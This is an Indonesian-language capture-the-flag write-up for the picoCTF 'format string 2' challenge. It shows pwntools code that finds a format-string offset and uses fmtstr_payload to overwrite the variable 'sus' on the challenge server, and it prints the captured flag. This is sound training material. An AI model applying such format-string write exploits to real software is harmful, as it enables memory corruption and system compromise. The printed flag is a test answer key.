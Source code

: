﻿## CTF Name: format string 2 (Medium)

### Description:
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack!

### Hint:
pwntools are very useful for this problem!

### Solution:
Untuk menyelesaikan tantangan ini langkah awal yang saya lakukan adalah menganalisa source code nya terlebih dahulu pada vuln.c saya menemukan bahwa cara untuk mendapatkan flagnya harus membuat sus menjadi 0x67616c66 

![vuln.c](./documentation/image.png)

berdasarkan hasil analisa saya ini saya mendapatkan strategi untuk mengubah sus yang sebelumnya itu 0x21737573 menjadi  0x67616c66 cara yang saya lakukan adalah membuat script payload untuk mengubah nilai sus menggunakan library python yaitu pwn berdasarkan hint yang diberikan dengan langkah sebagai berikut:

 1. **Menemukan Offset Parameter Format String**
 Langkah pertama adalah menentukan offset parameter pada stack yang dapat kita kontrol menggunakan payload format string. Offset inilah yang menunjukkan posisi di stack di mana kita dapat menulis data. Menggunakan pwntools, kita dapat secara otomatis mencari offset dengan memanfaatkan kelas FmtStr dan sebuah fungsi yang menjalankan binary secara lokal:
	```
	def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l

	offset = FmtStr(send_payload).offset
	info(f"{offset=}")
	```
	Di sini, fungsi send_payload menjalankan binary lokal, mengirim payload, dan mengembalikan outputnya. FmtStr kemudian mencari nilai offset yang benar untuk eksploitasi write.
	
2. **Mendapatkan Alamat Target**
 Setelah offset ditemukan, kita perlu mengetahui alamat dari variabel target yaitu simbol **sus** yang akan diubah nilainya. Dengan membuka binary menggunakan binary menggunakan pwntools:
	 ```
	 elf = context.binary = ELF('./vuln')
	info(f"{elf.symbols['sus']=}")
	 ```
	 informasi ini memberikan alamat memori dari **sus** yang nantinya akan digunakan untuk menulis **"flag"**.

3. **Membangun dan mengirim payload eksploitasi**
Dengan mengetahui offset dan alamat target, kita dapat membuat payload menggunakan fungsi fmtstr_payload dari pwntools. Payload ini dirancang untuk menulis nilai  0x67616c66 ke alamat sus.
	```
	p = remote('rhea.picoctf.net', 54471)
	p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
	info(p.recvall().decode())
	p.close()
	```
	payload yang dibuat oleh pwntools itu bakal dikirimkan menggunakan fungsi remote untuk membuka koneksi ke server  dan jika eksploitasi berhasil, output yang berisi flag akan diterima

4. Menjalankan script payload yang sudah dibuat dengan python3
	```
	python3 script.py
	```
	setelah script python itu dijalankan payload akan dijalankan dari hasil output nya ini:

	![output script.py](./documentation/2.png)
		
	dapat dilihat bahwa payload berhasil dijankan dan mendapatkan offset nya yaitu 14 dan berhasil mengubah alamat sus menjadi alamt flag dan akhirnya flagnya didapatkan yaitu:
	**picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}**